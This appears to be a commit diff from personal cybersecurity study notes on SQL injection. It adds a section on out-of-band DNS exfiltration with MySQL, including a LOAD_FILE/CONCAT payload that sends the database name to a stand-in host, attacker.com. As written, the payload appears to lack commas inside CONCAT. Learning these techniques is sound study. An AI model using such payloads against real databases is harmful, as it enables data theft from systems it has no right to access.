

Before and after one commit to JS0ff/cybersecurity_notes, a Markdown page: sql_injections_intro/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
take notes on dns exfiltration with MySQL

```diff
--- a/sql_injections_intro/README.md
+++ b/sql_injections_intro/README.md
@@ -251,7 +251,17 @@ Use if everything else if failed and firewall is not blocking outband connection
 
 Less used compared to the in-band or blind.
 
-## How it works.
+### How it works.
 
 Attack Channel => web request with injection payload
 Data Channel => outband request that the database makes to your server, with the exfiltrated data.
+
+### DNS Exfiltration with MySQL
+
+Uses LOAD_FILE() to trigger DNS lookup.
+
+`SELECT LOAD_FILE(CONCAT('\\\\'(SELECT database()) '.attacker.com\\share'));`
+
+`SELECT database()` => pulls database name
+`CONCAT()` => builds string
+`LOAD_FILE()` => reading the file path
```
